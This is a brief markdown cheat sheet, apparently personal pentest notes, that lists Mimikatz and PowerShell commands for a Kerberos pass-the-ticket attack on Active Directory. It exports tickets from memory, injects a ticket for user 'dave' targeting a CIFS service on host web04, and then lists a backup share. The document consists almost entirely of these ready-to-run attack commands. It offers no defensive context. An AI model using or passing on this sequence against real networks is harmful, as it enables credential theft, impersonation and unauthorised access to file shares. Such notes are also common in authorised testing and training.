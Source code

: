 #activedirectory #pth #ptt

1. Export the ticket

```mimikatz
privilege::debug
```

```mimikatz
sekurlsa::tickets /export
```

2. check for tickets in the directory

```powershell
dir *.kirbi
```

3. Select a ticket and inject to the memory

```mimikatz
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

4. Check if its loaded

```powershell
klist
```

5. Access the object

```powershell
ls \\web04\backup
```

